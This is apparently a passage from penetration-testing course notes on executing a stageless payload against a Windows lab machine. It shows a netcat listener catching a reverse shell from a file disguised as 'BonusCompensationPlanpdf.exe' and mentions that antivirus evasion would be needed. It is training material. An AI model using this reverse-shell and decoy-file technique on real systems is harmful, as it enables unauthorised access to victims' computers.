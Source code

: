 ## Executing a Simple Stageless Payload On a Windows System

This is another situation where we need to be creative in getting this payload delivered to a target system. Without any `encoding` or `encryption`, the payload in this form would almost certainly be detected by Windows Defender AV.

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1)  (54).png" alt=""><figcaption></figcaption></figure>

If the AV was disabled all the user would need to do is double click on the file to execute and we would have a shell session.

```shell-session
$ sudo nc -lvnp 443

Listening on 0.0.0.0 443
Connection received on 10.129.144.5 49679
Microsoft Windows [Version 10.0.18362.1256]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Users\htb-student\Downloads>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is DD25-26EB

 Directory of C:\Users\htb-student\Downloads

09/23/2021  10:26 AM    <DIR>          .
09/23/2021  10:26 AM    <DIR>          ..
09/23/2021  10:26 AM            73,802 BonusCompensationPlanpdf.exe
               1 File(s)         73,802 bytes
               2 Dir(s)   9,997,516,800 bytes free
```
